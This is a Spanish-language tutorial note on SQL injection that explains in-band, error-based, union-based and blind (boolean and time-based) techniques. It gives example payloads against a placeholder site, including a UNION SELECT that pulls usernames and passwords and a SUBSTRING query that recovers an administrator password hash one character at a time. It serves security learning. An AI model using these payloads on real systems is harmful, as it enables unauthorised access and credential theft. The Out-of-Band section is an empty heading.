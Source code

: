# Inyección SQL

## Tipos de inyección SQL

- In-Band (Classic).
  - Error.
  - Union.
- Inferential (Blind).
  - Boolean.
  - Time.
- Out-of-Band.

### In-Band (Classic)

- Ocurren cuando el atacante usa el mismo canal de comunicación tanto para lanzar el ataque como para obtener el resultado del ataque.
  - La data obtenida es presentada directamente en la página web de la aplicación.
- Es más fácil de expotar en comparación con otras categorías de SQLi.
- Existen dos tipos:
  - Error-based SQLi.
  - Union-based SQLi.

#### Error-based SQLi

- Es una técnica empleada para forzar a la base de datos a generar un error, dándodle al atacante información para poder redefinir la inyección.
- Ejemplo:

Input:

`www.random.com/app.php?id='`

Output:

`You have an error in your SQL syntax, check the manual that corresponds to your MySQL server version...`

En este caso se estaría agregando como valor del parámetro `id` el caracter `'` (comilla simple) para causar el error, añadiendo este caracter a la consulta generada por la aplicación.

#### Union-based SQLi

- Es una técnica que emplea el operador SQL `UNION` para combinar los resultados de dos consultas en un sólo set de resultados.
- Ejemplo:

Input:

`www.random.com/app.php?id=' UNION SELECT username, password FROM users--`

Output:

```
carlos
rtdgfdfcv0uc90xc
administrator
xdr3asrt3'0o90ki
```

En este caso el output de la segunda consulta se pudiera visualizar en los campos o lugares correspondientes a la consulta que normalmente hace la aplicación.

### Inferential (Blind)

- Es una vulnerabilidad donde no existe como tal una transferencia de datos por medio de la aplicación web.
- Independientemente que el atacante no pueda desplegar información directamente de la base de datos no le resta peligrosidad a la vulnerabilidad.
  - El atacante tiene la capacidad de reconstruir información al enviar ciertas peticiones y observar los resultados del comportamiento del servidor de base de datos.
- Toma más tiempo que las inyecciones In-Band.
- Existen dos tipos:
  - Boolean-based SQLi.
  - Time-based SQLi.

#### Boolean-based Blind SQLi

- Es una técnica que emplea condiciones booleanas para devolver diferentes resultados dependiendo de si la consulta generada retorna `TRUE` o `FALSE`.

URL de ejemplo:

`www.random.com/app.php?id=1`

Consulta de Backend:

`select title from product where id = 1`

Payload #1 (FALSE)

`www.random.com/app.php?id=1 and 1=2`

Consulta de Backend:

`select title from product where id = 1 and 1=2`

Payload #2 (TRUE)

`www.random.com/app.php?id=1 and 1=1`

Consulta de Backend:

`select title from product where id = 1 and 1=1`

##### Caso Práctico

Se busca extraer el hash del usuario `Administrator` de la tabla de usuarios.

Tabla Users:

`Administrator / 4cfef044f55be76daef66309146c60b5`

Payload:

`www.random.com/app.php?id=1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'`

Consulta de Backend:

`select title from product where id = 1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'`

Al enviar el payload no retorna ningún producto la página, por lo tanto devuelve `FALSE` con lo que se puede concluir que `'s'` no es el primer caracter del hash de la contraseña.

Este proceso se vuelve iterativo por lo que se puede probar con todos los caracteres disponibles. Tomando en cuenta el caso práctico para devolver `TRUE` quedaría de la siguiente manera.

Payload:

`www.random.com/app.php?id=1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = '4'`

Consulta de Backend:

`select title from product where id = 1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = '4'`

De esta manera se cumplen ambas condiciones, es decir, que exista un producto con el id 1 y que el primer caracter del hash es `4`. Siendo así la consulta devolverá por ende `TRUE`.

#### Time-based SQLi

- Es una técnica que emplea el pausado de la base de datos por un cierto periodo de tiempo para después retornar los resultados, indicando una ejecución correcta de la consulta de SQL.
- Ejemplo de consulta a la base de datos:

Si el primer caracter del hash de la contraseña del usuario administrator es 'a', realiza una pausa por 10 segundos.

- Si la respuesta tarda en responder 10 segundos, el primer caracter es 'a'.
- Si la respuesta no tarda en responder 10 segundos, el primer caracter no es 'a'.

### Out-of-Band

